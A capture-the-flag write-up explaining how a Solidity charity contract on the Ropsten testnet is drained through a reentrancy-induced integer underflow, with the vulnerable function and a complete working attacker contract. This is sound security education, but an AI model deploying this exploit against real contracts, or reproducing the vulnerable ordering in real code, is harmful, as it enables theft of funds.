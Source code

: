# Writeup - Velgørenhed (Blockchain - Underflow & Reentrency)
![CTF objective](https://github.com/Super02/ctf-writeups/blob/main/Velg%C3%B8renhed/Screenshot%202022-05-10%20213040.png)
We are presented with a link to a website that deploys a contract on the Ropsten testnet. We are given the source code to the smart contract and a contract address. Our goal is to empty the contract for funds.

We are first going to take a look at the smart contract to look for any potential vulnurabilites. 
![Source code](https://github.com/Super02/ctf-writeups/blob/main/Velg%C3%B8renhed/Screenshot%202022-05-10%20213051.png)
When looking through the smart contract (either by hand or by using a tool like slither) you may notice the function donateToContract.
```sol
   function donateToContract(uint amount) public payable{
        require(amount <= donatorBalance[msg.sender], 'Insufficient balance');
        require(!donatedToContract[msg.sender], 'Can only donate to contract once!');
        donatedToContract[msg.sender]=true;
        charityBalance[address(this)] += amount;
        msg.sender.call{value: 0}("Thanks for your donation.");
        donatorBalance[msg.sender] -= amount;        
   }
```

What is interesting about this function is that it does a call before setting the donaterBalance. This allows us to create a fallback that executes code and changes the state of the contract before the last line of code is executed in the function. The idea behind this is to change donatorBalance to a value lower than the variable amount. Doing this will create a underflow. And since donatorBalance is a uint (unsigned integer) it will wrap around giving us an insanely high donatorBalance.

#### Execution
To execute the smart contract functions we are going to use ![Ethereum remix](https://remix.ethereum.org/). We are going to create two files. A attack.sol and a file named charity.sol. The charity file contains the source code of the smart contract. While the attack.sol is something we have to write ourselves.

##### Creating attack.sol
Looking onlien we can find examples of reentrency attacks. If we modify these examples we can use them here. We create a attack function that first executes the deposit function to deposit 0.1 ether. When we have deposited the ether we can then execute the vulnurable donateToContract function. We then have a fallback function that runes right before the donatorBalance is changed giving us an opportunity to withdraw our 0.1 ether. This leaves the donatorBalance at 0 untill after our fallback function is done executing as the donateToContract function executes the last line of code subtracting 0.1 ether from our donatorBalance that is 0. This create a underflow as 0 - 0.1 would be a negative value thus wrapping the unsigned integer around giving us a large donatorBalance.
```sol
pragma solidity 0.7.4;

import './charity.sol';

contract Attacker {
    Charity public charity;
    bool firstcall = true;
    
    constructor(address _etherBankAddress) {
        charity = Charity(_etherBankAddress);
    }
    
    function attack() public payable {
        firstcall = true;
        charity.deposit{ value: 1000000000000000 wei}();
        charity.donateToContract(1000000000000000 wei);
        charity.withdraw();
    }

    fallback() external payable {
        if(firstcall == true) {
            firstcall = false;
            charity.withdraw();
    }}
    
    function getBalance() public view returns(uint) {
        return address(this).balance;
    }
}
```

#### Withdraw
Now that our donatorBalance is a very high value we just use the withdraw function to withdraw. The withdraw function is set to withdraw all funds of the account even though we have a higher donatorBalance than the actual balance of the account.

#### Results
When we have withdrawn the funds from the contract we are left with an empty contract. This meets the goal set in the challenge. So we just go back and click on the button called "Check solved". This will give us our flag.
![Results](https://github.com/Super02/ctf-writeups/blob/main/Velg%C3%B8renhed/Screenshot%202022-05-10%20213021.png)
